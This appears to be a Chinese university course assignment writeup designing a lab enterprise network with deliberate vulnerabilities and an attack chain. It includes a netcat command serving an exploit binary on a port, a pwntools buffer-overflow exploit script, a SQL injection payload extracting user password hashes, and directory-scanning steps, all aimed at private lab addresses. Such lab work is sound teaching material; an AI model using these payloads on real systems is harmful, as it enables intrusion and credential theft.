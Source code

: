 # 企业级网络的安全利用和漏洞

**ddl**：6.5日晚 20:00

### 设计要求

+ 设计一个企业级的网络拓扑： 
  + 网络中最少包含3台主机，分别为不同实体，如：攻击者、网关以及服务器 
  + 鼓励在网络拓扑中加入更多的主机，但要求网络中的每台主机均需对攻击或防 御有贡献
+ 在企业级网络内部署相应的服务，设计可以被（攻击者）利用的安全漏洞
+ 从攻击者的角度，利用网络中的安全漏洞，最少实现3类攻击 
  + 设计的攻击之间应具有关联性，由其构成的攻击链最终应为一个攻击目的服务 
  +  实现的攻击类型应为密码破解攻击、中间人攻击、缓冲区溢出攻击、网络扫描、 网络嗅探与欺骗攻击、Web漏洞利用中的几种 
  + 实现攻击的工具应为课程实验中学习的相关开源工具
+ 从网络管理者的角度，针对上述安全漏洞，设计并实施相应的防御措施

### 设计内容

#### 网络拓扑

<img src="大作业设计/image-20220530210324008.png" alt="image-20220530210324008" style="zoom:33%;" />



#### 环境配置

##### 网络配置

Attacker NAT网络 10.0.2.9

Zombie NAT网络  10.0.2.8

gateway NAT网络 内部网络 10.0.2.7 192.168.55.1

Server 内部网络 192.168.55.101

##### 其他

Server中使用Lab10的sql-injection.com

修改SQLi.sql，添加以下语句(这个符号`也太鬼畜了)

```sql
DROP TABLE IF EXISTS `USER`;
CREATE TABLE `USER` (
	`ID` int(6) unsigned NOT NULL AUTO_INCREMENT,
	`Name` varchar(30) NOT NULL,
	`Password` varchar(300) NOT NULL,
	PRIMARY KEY (`ID`)
);

INSERT INTO `USER` VALUES (1,'admin','5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8'); # password的SHA1值
```

导入数据库

```sh
sudo mysql -u root
mysql> use elgg;
mysql> source SQLi.sql;
mysql> exit
```

启动APACHE服务

```
sudo service apache2 restart
```

Gateway中含有本次实验所要获取到文件资源(flag)

通过设置iptable和ipv4.forward使得外网主机能访问内网服务器

![image-20220531101000364](大作业设计/image-20220531101000364.png)

iptable配置

```
sudo iptables -t nat -A PREROUTING -p tcp -d 10.0.2.7 --dport 80 -j DNAT --to-destination 192.168.55.101:80
3. sudo iptables -t nat -A PREROUTING -d 172.20.10.5 -j DNAT --to-destination 192.168.58.100
```

Zombie主机修改/etc/hosts文件

```
[gateway_address]	www.sql-injection.com
```

访问http://www.sql-injection.com/unsafe

![image-20220531114902849](大作业设计/image-20220531114902849.png)

Zombie主机安装dirsearch

```sh
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
python3 dirsearch.py -u <URL> -e <EXTENSION>
```

使用方法

```
python3 dirsearch.py -u www.sql-injection.com/unsafe
```

Zombie主机启动网络后门

```sh
sudo apt-get install netcat-traditional
sudo update-alternatives --config nc
```

**部署缓冲区溢出攻击**

设置nc

```
sudo apt-get install netcat-traditional
sudo update-alternatives --config nc
```

将exploit部署到12345端口

```
nc -l -p 12345 -e exploit
```

attacker运行exp.py

```python
from pwn import *
p=remote('10.0.2.8',12345)
#p=process('.')

payload=b'\x00'*(0x88)+p64(0x400596)

p.send(payload)

p.interactive()
# 需安装pwntools pip3 install pwntools
```

**命令行浏览器w3m安装**

```
sudo apt install w3m w3m-img
```

示例

```
w3m baidu.com
```

#### 漏洞设计

1. SQLi漏洞
2. 弱口令
3. telnet会话劫持
3. 缓冲区溢出攻击

#### 攻击过程

1. 攻击者通过缓冲区溢出攻击获取Zombie主机控制权
2. Zombie对Web网站进行dirsearch扫描
3. 攻击者控制僵尸主机访问Web网站，实行SQLi攻击，获取数据库中口令文件内容
4. 攻击者利用僵尸主机ssh登录服务器，在服务器上进行nmap网络扫描
5. 攻击者利用僵尸主机在Server上进行arp欺骗，实现Telnet会话劫持，读取gateway文件

#### 攻击步骤







##### SQLi

```sql
alic' union select 0,Name,Password,0,0,0,0,0,0,0,0 from USER #
```

